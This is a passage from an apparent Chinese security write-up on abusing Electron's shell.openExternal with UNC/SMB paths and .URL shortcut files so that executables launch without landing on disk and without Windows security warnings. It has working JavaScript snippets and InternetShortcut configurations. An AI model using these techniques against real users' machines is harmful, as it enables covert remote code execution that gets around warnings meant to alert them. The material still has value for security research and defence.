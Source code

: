 **<a class="reference-link" name="3.1%20UNC%E6%96%B9%E5%BC%8F"></a>3.1 UNC方式**

通过unc方式加载可以使文件不落地远程唤起文件执行，但是如果指定打开一个exe文件还是会存在一个弹框警告，对于在渗透过程中为了尽可能减少对方的感知来说显然是不够的，所以在后面会叙述下如何绕过这个弹框

当我们用unc的方式去指定让其去打开smb共享里面的exe文件(不带ads流),但是依然会有安全警告问题

```
const `{`shell`}` = require('electron');shell.openExternal('file://127.0.0.1/C$/Windows/System32/cmd.exe');
```

[![](https://p4.ssl.qhimg.com/t0186330957060e4cd0.png)](https://p4.ssl.qhimg.com/t0186330957060e4cd0.png)

通过smb打开jar/py文件却是不会有任何警告的，情况和文件落地时的情况类似就不再多加叙述

```
//jar包方式
const `{`shell`}` = require('electron');shell.openExternal('file://127.0.0.1/C$/Users/xxxx/Desktop/burpsuite_community.jar');
//py方式
const `{`shell`}` = require('electron');shell.openExternal('file://127.0.0.1/C$/Users/xxxx/Desktop/test.py');
```

但是这一切的一切都有个前提，对方具有python或者java环境，那如果是这些环境都没有呢？有没有什么比较好的替代方法？

<a class="reference-link" name="3.2%20UNC%20+%20URL%E6%96%B9%E5%BC%8F"></a>**3.2 UNC + URL方式**

这里我们创建了一个test.URL文件来演示这个过程，test.URL如下所示，需要注意的就是两个参数URL和WorkingDirectory，首先我们先设置URL指定为本地的exe，在这一小节中WorkingDirectory在这里不是重点

```
[InternetShortcut]
URL=file:///C:/windows/system32/cmd.exe
WorkingDirectory=\\127.0.0.1\C$
```

通过shell.openExternal打开远程smb服务器中的.url文件

```
const `{`shell`}` = require('electron');shell.openExternal('file://127.0.0.1/C$/Users/xxxx/Desktop/test.url');
```

可以直接打开cmd窗口，不会存在警告问题，但是这里可能有人会说了，你这样只能打开落地的cmd.exe，或者说还是没有解决不落地打开exe的效果

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01d46952d28ac34495.png)

那我们再测试下如果在URL文件当中引用远程的exe程序会产生什么样的效果，test.URL配置如下所示

```
[InternetShortcut]
URL=file://127.0.0.1/C$/Windows/System32/cmd.exe
WorkingDirectory=\\127.0.0.1\C$\temp\
```

然后再用electron的openExternal打开它，发现还是会存在安全警告问题
